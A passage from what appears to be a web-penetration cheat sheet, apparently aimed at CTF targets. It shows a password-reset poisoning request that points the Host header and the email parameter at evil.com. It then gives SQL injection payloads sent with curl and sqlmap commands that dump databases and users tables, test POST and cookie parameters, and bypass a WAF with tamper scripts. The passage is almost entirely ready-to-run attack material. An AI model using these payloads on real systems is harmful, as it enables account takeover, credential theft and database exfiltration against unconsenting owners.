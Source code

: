 ### Step 2.5: Password Reset Poisoning
```bash
# Intercept password reset request
# Change email parameter: email=victim@target.com → email=attacker@evil.com
# Or add Host header: Host: evil.com

# Burp Suite request:
POST /reset-password HTTP/1.1
Host: evil.com
Content-Type: application/x-www-form-urlencoded

email=victim@target.com
```

---

## 3. Injection Attacks {#3-injection-attacks}

### Step 3.1: SQL Injection

#### Manual Testing
```bash
# Test for SQLi
curl "$TARGET/product?id=1'"
curl "$TARGET/product?id=1 OR 1=1--"
curl "$TARGET/product?id=1 UNION SELECT NULL--"

# Find number of columns
curl "$TARGET/product?id=1 ORDER BY 5--"  # Increase until error
```

#### SQLMap (Automated)
```bash
# Basic scan
sqlmap -u "$TARGET/product?id=1" --batch --dbs

# Dump specific database
sqlmap -u "$TARGET/product?id=1" -D ctf_db --tables

# Dump table data
sqlmap -u "$TARGET/product?id=1" -D ctf_db -T users --dump

# POST request SQLi
sqlmap -u "$TARGET/login" --data "username=admin&password=test" -p username --batch

# Cookie-based SQLi
sqlmap -u "$TARGET/profile" --cookie "id=1" --level 2

# Tamper scripts (bypass WAF)
sqlmap -u "$TARGET/product?id=1" --tamper=space2comment --batch
```
